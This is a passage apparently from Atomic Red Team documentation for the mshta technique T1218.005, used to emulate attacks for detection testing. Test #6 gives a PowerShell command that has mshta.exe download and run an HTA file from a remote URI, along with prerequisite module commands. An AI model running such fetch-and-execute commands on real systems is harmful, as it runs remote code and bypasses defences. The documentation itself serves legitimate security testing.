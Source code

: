 ##### Get Prereq Commands:

```powershell
Install-Module -Name AtomicTestHarnesses -Scope CurrentUser -Force
```

<br/>
<br/>

## Atomic Test #6 - Invoke HTML Application - Direct download from URI

Executes an HTA Application by directly downloading from remote URI.

**Supported Platforms:** Windows

**auto_generated_guid:** 39ceed55-f653-48ac-bd19-aceceaf525db

#### Inputs:

| Name            | Description           | Type   | Default Value                                                                                                                              |
| --------------- | --------------------- | ------ | ------------------------------------------------------------------------------------------------------------------------------------------ |
| mshta_file_path | Location of mshta.exe | string | $env:windir&#92;system32&#92;mshta.exe                                                                                                     |
| hta_uri         | URI to HTA            | url    | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/24549e3866407c3080b95b6afebf78e8acd23352/atomics/T1218.005/src/T1218.005.hta |

#### Attack Commands: Run with `powershell`!

```powershell
Invoke-ATHHTMLApplication -HTAUri #{hta_uri} -MSHTAFilePath #{mshta_file_path}
```

#### Dependencies: Run with `powershell`!

##### Description: The AtomicTestHarnesses module must be installed and Invoke-ATHHTMLApplication must be exported in the module.

##### Check Prereq Commands:

```powershell
$RequiredModule = Get-Module -Name AtomicTestHarnesses -ListAvailable
if (-not $RequiredModule) {exit 1}
if (-not $RequiredModule.ExportedCommands['Invoke-ATHHTMLApplication']) {exit 1} else {exit 0}
```

##### Get Prereq Commands:

```powershell
Install-Module -Name AtomicTestHarnesses -Scope CurrentUser -Force
```

<br/>
<br/>

## Atomic Test #7 - Invoke HTML Application - JScript Engine with Rundll32 and Inline Protocol Handler
